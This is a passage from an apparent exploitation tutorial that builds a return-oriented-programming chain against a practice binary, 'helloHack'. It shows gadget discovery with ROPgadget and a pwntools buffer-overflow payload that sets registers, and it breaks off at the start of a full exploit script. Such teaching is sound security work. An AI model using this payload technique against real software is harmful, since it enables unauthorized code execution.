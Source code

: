 When we put address 0x0000000000443000 in our payload, then the program will end the main function by jumping to the instructions

    xor rax, rax
    ret

After clearing register rax, the program will try to return. This means that it will look at the next position on the stack to find an address to jump to. So, if we add some more values to the stack that let the program jump to valid instructions, it will do so. For instance, let's find instructions that set register rdx to a value of our choosing:

    ROPgadget --binary helloHack
    ...
    0x00000000004016db : pop rdx ; ret
    ...

This will execute the following code:

    pop rdx
    ret

In short, it will pop a value off of the stack and set the contents of register rdx to that value. The payload in the python program could be:

    payload  = ( 'A' * 72 ).encode()        # 'AAAAAAAAAAAAAAAAAA...
    payload += p64( 0x0000000000443000 )    # xor rax, rax ; ret
    payload += p64( 0x00000000004016db )    # pop rdx      ; ret
    payload += p64( 0x00000000deadbeef )

And the result would be:

    $rax   : 0x0000000000000000
    ...
    $rdx   : 0x00000000deadbeef    
    ...

Conclusion: with enough instructions to choose from, and with a little inspiration and perseverance, we can make the program execute a sub-program that we glue together with instruction snippets we can leach from already existing executable code.

## Exploiting the helloHack program

With all the knowledge we have gathered above, we can now create a python script that shows the entire exploit at work. Once the python script has been tested on the local version of the helloHack program, it can be launched to exploit a websocket version of helloHack:

    #! /usr/bin/env python
    
    # -----------------------------------------------------------------------
    
    from pwn import *
    import time
    
    # -----------------------------------------------------------------------
    